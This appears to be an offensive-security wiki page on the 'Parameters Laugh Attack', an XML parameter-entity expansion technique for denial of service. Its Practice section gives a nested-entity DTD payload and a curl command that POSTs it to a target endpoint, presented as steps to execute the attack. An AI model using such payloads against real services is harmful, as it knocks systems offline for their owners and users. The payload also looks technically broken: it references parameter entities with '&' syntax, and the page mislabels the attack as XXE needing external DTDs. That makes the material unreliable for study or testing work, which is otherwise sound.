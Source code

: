 ```yaml
---
title: 'Parameters Laugh Attack: XXE Denial of Service Insight'
description: Explore the Parameters Laugh Attack, a denial of service technique using
  XML parameter entity expansion.
keywords:
- Parameters Laugh Attack
- XXE exploitation
- denial of service
- parameter entities
- XML vulnerabilities
- Sebastian Pipping
- XML entity expansion
- resource exhaustion
- cybersecurity
---
```


# Parameters Laugh Attack

## Context

The Parameters Laugh Attack is a specialized form of XML External Entity (XXE) exploitation used to perform denial of service (DoS) on targeted servers. The attack leverages parameter entity expansion within XML documents to exhaust system resources, such as memory and CPU. This attack builds upon foundational understanding of XML structure, entity declaration, parameter entities, and standard XXE attack mechanisms.

## Theory

### Parameter Entities in XML and Their Abuse

Parameter entities are a specific type of XML entity that are declared with a '%' sign and are utilized within Document Type Definitions (DTDs) rather than within the document's content. They can reference other entities, allowing for the creation of recursive expansions. If these parameter entities are not properly handled, they can be exploited to cause resource exhaustion within the server processing the XML document.

### Parameters Laugh Attack: Concept and Mechanism

A Parameters Laugh Attack is a variant of the Billion Laughs attack, employing parameter entities to induce exponential expansion. In this attack, an attacker carefully crafts a DTD with deeply nested parameter entities, which results in massive memory consumption during parsing by XML parsers. Some XML parsers impose fewer restrictions on parameter entity expansion than on general entity expansion, allowing this attack to bypass certain mitigations.

### Historical Context and Discovery

Parameters Laugh Attack was discovered by Sebastian Pipping, who demonstrated how parameter entity bombs can exploit overlooked vulnerabilities in XML parsing. These attacks highlight a significant risk, especially in systems where mitigations are targeted solely at general entities, leaving the parameter entity vector exposed.

## Practice

### Crafting and Delivering a Parameters Laugh Attack Payload

- Begin by creating a malicious XML file with a DTD containing recursively defined parameter entities. This forms the basis of the Parameters Laugh Attack.
  
```xml
<!DOCTYPE root [
  <!ENTITY % a0 "a">
  <!ENTITY % a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
  <!ENTITY % a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
  <!ENTITY % a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
  %a3;
]>
<root/>
```

- This DTD setup recursively expands parameter entities, creating an exponential growth of entity replacements during parsing.

- Submit this XML payload to a vulnerable XML parser endpoint, such as via an HTTP POST request. Ensure the target server is configured to process external DTDs and supports parameter entities.

```bash
curl -X POST -H "Content-Type: application/xml" --data-binary @malicious.xml http://target/vulnerable-endpoint
```

- Replace `http://target/vulnerable-endpoint` with the actual endpoint that is vulnerable to such attacks.

### Outcome

Successful execution of a Parameters Laugh Attack will cause the target XML parser to exhaust its available memory or CPU resources, effectively resulting in a denial of service. This can cause the targeted service to slow down significantly, become unresponsive, or crash entirely.

## Tools

- **curl**
- **Burp Suite**
- **Custom XML editors** 

By following these steps and understanding the underlying theory, one can effectively execute a Parameters Laugh Attack to test and demonstrate vulnerabilities within XML parsers susceptible to this form of XXE exploitation.